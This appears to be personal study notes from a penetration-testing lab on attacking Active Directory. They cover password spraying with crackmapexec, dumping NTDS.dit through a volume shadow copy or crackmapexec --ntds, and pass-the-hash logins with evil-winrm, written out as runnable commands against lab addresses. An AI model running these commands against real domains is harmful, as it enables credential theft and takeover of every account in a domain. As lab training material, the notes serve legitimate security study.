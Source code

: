 Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor.

Username Anarchy can be used to create mutations of names.

#### CrackMapExe 
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

This will generate a log for each login attempt, generating possibly millions of logs. 

### Capturing NTDS.dit
`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model).
.dit stands for *directory information tree*. 
If this account can be captured its possible to compromise every account on the domain. 

We need to connect to a AD server with evil-winrm

Once connected we can check privileges 
```shell-session
net localgroup
```

If an account has  ***local admin*** (`Administrators`) or ***Domain Admins*** (`Domain Admins`) 
```shell-session
net user username
```

### Creating Shadow Copy of C:
we can use vssadmin to create a *volume shadow copy*(`vss`) of the C: drive we use vss for this because its designed to make copies of volumes that can be read/written.

Vss is used to create backups for disaster recovery software and to perform operations. 
```shell-session
vssadmin CREATE SHADOW /For=C:
```

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
We can then move the copy of NTDS to our SMB server. 

### Faster Method CrackMapExec to capture NTDS.dit
we can use crackmap to quickly accomplish the same task. 
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Pass the Hash Considerations 
We can use hashes in a `PtH` attack to authenticate a user without the plain-text password. 
```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
